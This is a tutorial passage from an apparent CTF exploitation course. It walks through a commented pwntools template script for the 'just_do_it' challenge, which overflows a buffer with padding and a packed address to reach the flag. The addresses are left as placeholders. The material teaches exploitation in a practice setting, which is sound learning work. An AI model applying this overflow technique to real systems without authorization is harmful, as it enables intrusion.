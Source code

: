 While there is a [brief explanation of pwntools here](https://github.com/hoppersroppers/nightmare/blob/master/modules/02-intro_tooling/pwntools/readme.md) and even better [better tutorials](https://github.com/Gallopsled/pwntools-tutorial) here,
we'll quickly talk through the exploit script format and how pwntools makes our lives easier.

This is a heavily commented example of just_do_it which you will work through soon.

Demo Exploit Script #1:
```
# Import pwntool utils
from pwn import process, remote, p32

#### Create the local connection to the challenge
# This will start the process 
target = process('./just_do_it')

#### Attach via GDB
# If you want to, you can automatically jump into GDB when the local process starts up 
# The text placed in the gdbscript value is automatically run when GDB starts up, allowing us to set breakpoints
# gdb.attach(target, gdbscript='b *0x4009a5')

#### Connect to the remote challenge
# Often, you'll receive a local binay to practice on, but the actual challenge and flag is hosted on a remote host
# Here is an example of building a connection to port 12484, where the challenge was hosted. 
# The 'target' variable, while one is local and one is remote, works with pwntools identically, which is really great
#target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)


addrInputStart = 0x00# fill this in with where input starts  
addrValueToOverwrite = 0x00# fill this in with address of value that is compared
paddingRequired = addrInputStart-addrValueToOverwrite

addrOfFlag = 0x41414141 #fill this in where the flag is read to 

# Print out the starting prompt
# The pwntools 'recvunitl' will recv data until it receives what it is expecting. 
print(target.recvuntil(b"password.\n"))

# Create the payload
# That p32 will our addr appropriately formatted for the binary we are working with
# Always need to make sure architecture/endianess is correct for writing exploits.
payload = b"A"*paddingRequired + p32(addrOfFlag)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell, so we can read everything the server prints out
# The interactive shell is a bit confusing because in this cae, we are not trying to get a shell, but it functions as a recv for all output that the challenge might send to us, in this case, the flag.
target.interactive()
```


Hopefully that makes a little bit more sense of how pwntools makes your life better.

